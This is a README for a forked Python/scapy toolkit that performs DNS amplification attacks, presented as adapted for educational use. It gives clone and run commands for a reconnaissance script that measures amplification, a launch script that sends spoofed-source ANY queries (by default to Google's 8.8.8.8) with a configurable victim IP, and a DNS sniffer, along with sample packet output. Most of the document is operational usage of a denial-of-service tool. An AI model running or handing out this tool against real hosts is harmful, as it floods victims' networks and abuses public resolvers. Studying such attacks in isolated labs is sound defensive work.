 DNS Amplification attack
===
Customization of the repository of tony2037
[github-Dns-Amplification-Attack](https://github.com/tony2037/Dns-Amplification-Attack)

Some adaptations have been made for easier deployment and more flexible use in an educational setting.

# How does it work ?
According to [DNS Amplification Attack](https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/) :

1. The attacker uses a compromised endpoint to send UDP packets with spoofed IP addresses to a DNS recursor. The spoofed address on the packets points to the real IP address of the victim.
2. Each one of the UDP packets makes a request to a DNS resolver, often passing an argument such as “ANY” in order to receive the largest response possible.
3. After receiving the requests, the DNS resolver, which is trying to be helpful by responding, sends a large response to the spoofed IP address.
4. The IP address of the target receives the response and the surrounding network infrastructure becomes overwhelmed with the deluge of traffic, resulting in a denial-of-service.

![](https://i.imgur.com/2LJ8JU4.png)

# Experience
## Explanation
This package is a standalone toolkit based on **python scapy** which send a **UDP/IP** packet carry a **DNS** packet with **DNS Resource Record** packet. The scapy library is included in the repository to ensure compatibility with virtually any host that can run Python. This also reduces the number of steps needed to get started.<br>
The default `destination` is `8.8.8.8`, which is well-known **google DNS server**.<br>
The default `target address` is local, but can be easily changed to any target in the arguments<br>

## Usage
### Clone repository
```shell
git clone https://github.com/Ezecheel/Dns-Amplification-Attack
```
### Reconnaissance to check amplification
```shell
sudo python DAA_recon.py -D _destination_IP_ -q _queryname_ -qt _id of query type_ -n _number of packets_
```
**destination_IP** is the IP address of the DNS server to which the request will be sent, default is 8.8.8.8<br>
**queryname** is the domainname for which the record will be requested, default is google.com<br>
**id of query type** is the id number of the record type that will be requested, default is 255 (ALL)<br>
**number of packets** is the number of DNS queries that should be sent as part of simulated attack, default is 1<br>

TYPE            value and meaning

A       1       a host address

NS      2       an authoritative name server

MD      3       a mail destination (Obsolete - use MX)

MF      4       a mail forwarder (Obsolete - use MX)

CNAME   5       the canonical name for an alias

SOA     6       marks the start of a zone of authority

MB      7       a mailbox domain name (EXPERIMENTAL)

MG      8       a mail group member (EXPERIMENTAL)

MR      9       a mail rename domain name (EXPERIMENTAL)

NULL    10      a null RR (EXPERIMENTAL)

WKS     11      a well known service description

PTR     12      a domain name pointer

HINFO   13      host information

MINFO   14      mailbox or mail list information

MX      15      mail exchange

TXT     16      text strings

for a more complete list see: https://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml

The script outputs the amplification level of the requested record. This can be used to find suitable records for simulated attacks. Additionally, it is possible to sent a number of requests to ensure that the amplification level remains sufficiently high when the DNS server gets flooded with requests.
### Launch attack
```shell
sudo python DAA.py -D _destination_IP_ -T _target_IP_ -q _queryname_ -qt _id of query type_ -n _number of packets_
```
for **destination_IP**, **queryname**, **id of query type** and **number of packets** see above.<br>
**target_IP** is the IP address of the target machine to which the DNS replies should be sent, default is 127.0.0.1<br>

### Listen to DNS traffic
```shell
sudo python snifffer.py
```
This returns all DNS packets that are received on the interface, similar to a Wireshark capture filtered on DNS.
This can serve as an introduction to see which records are being requested and received, including which replies seem sufficiently large to be used as example.
### Snapshot //add snapshots
#### Send packet
```shell
         |###[ DNS Question Record ]### 
         |  qname     = 'qq.com'
         |  qtype     = ALL
         |  qclass    = IN
        an        = None
        ns        = None
        ar        = None

Are you sure you want to attack ? [Y]/NY
.
Sent 1 packets.
```
#### Sniffing
```shell
###[ IP ]### 
     version   = 4
     ihl       = 5
     tos       = 0x0
     len       = 52
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = udp
     chksum    = 0x608a
     src       = 10.1.0.30
     dst       = 8.8.8.8
     \options   \
###[ UDP ]### 
        sport     = domain
        dport     = domain
        len       = 32
        chksum    = 0x9f30
###[ DNS ]### 
           id        = 0
           qr        = 0
           opcode    = QUERY
           aa        = 0
           tc        = 0
           rd        = 1
           ra        = 0
           z         = 0
           ad        = 0
           cd        = 0
           rcode     = ok
           qdcount   = 1
           ancount   = 0
           nscount   = 0
           arcount   = 0
           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'qq.com.'
            |  qtype     = ALL
            |  qclass    = IN
           an        = None
           ns        = None
           ar        = None
```

